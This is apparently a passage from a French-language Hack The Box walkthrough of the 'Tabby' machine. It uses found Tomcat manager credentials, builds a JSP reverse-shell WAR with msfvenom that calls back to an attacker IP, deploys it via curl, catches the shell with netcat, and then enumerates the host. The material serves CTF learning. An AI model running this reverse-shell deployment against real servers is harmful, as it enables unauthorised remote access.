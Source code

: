 On obtient des identifiants pour le manager Tomcat: `tomcat::$3cureP4s5w0rd123!`

Créer un payload (reverse shell) et le déployer:

Ref: voir rèf précédentes et [http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_a_Directory_or_WAR_by_URL)

~~~
root@Host-001:~/Bureau/htb/Tabby# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.133 LPORT=1234 -f WAR > payload.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes

root@Host-001:~/Bureau/htb/Tabby# curl --user 'tomcat':'$3cureP4s5w0rd123!' --upload-file payload.war "http://10.10.10.194:8080/manager/text/deploy?path=/0xss0rz"
OK - Deployed application at context path [/0xss0rz]
root@Host-001:~/Bureau/htb/Tabby# 
~~~

lancer un listener sur le port 1234 et aller sur http://10.10.10.194:8080/0xss0rz/

On a un shell 

~~~
root@Host-001:~/Bureau/htb/Tabby# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.133] from (UNKNOWN) [10.10.10.194] 37380
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
cd /home
/usr/bin/script -qc /bin/bash /dev/null
tomcat@tabby:/home$ ls
ls
ash
tomcat@tabby:/home$ cd ash
cd ash
bash: cd: ash: Permission denied
tomcat@tabby:/home$ 
~~~

On enumere un peu et on trouve un fichier de backup

~~~
tomcat@tabby:/var/lib/tomcat9$ ls
ls
conf  lib  logs  policy  webapps  work
tomcat@tabby:/var/lib/tomcat9$ cd lib	
cd lib
tomcat@tabby:/var/lib/tomcat9/lib$ ls
ls
tomcat@tabby:/var/lib/tomcat9/lib$ cd ../work
cd ../work
tomcat@tabby:/var/lib/tomcat9/work$ ls
ls
Catalina
tomcat@tabby:/var/lib/tomcat9/work$ cd Catalina
cd Catalina
tomcat@tabby:/var/lib/tomcat9/work/Catalina$ ls
ls
localhost
tomcat@tabby:/var/lib/tomcat9/work/Catalina$ cd localhost
cd localhost
tomcat@tabby:/var/lib/tomcat9/work/Catalina/localhost$ ls
ls
0xss0rz  examples      manager    payload690     ROOT
docs     host-manager  payload69  payload69.war
tomcat@tabby:/var/lib/tomcat9/work/Catalina/localhost$ cd /var/www
~~~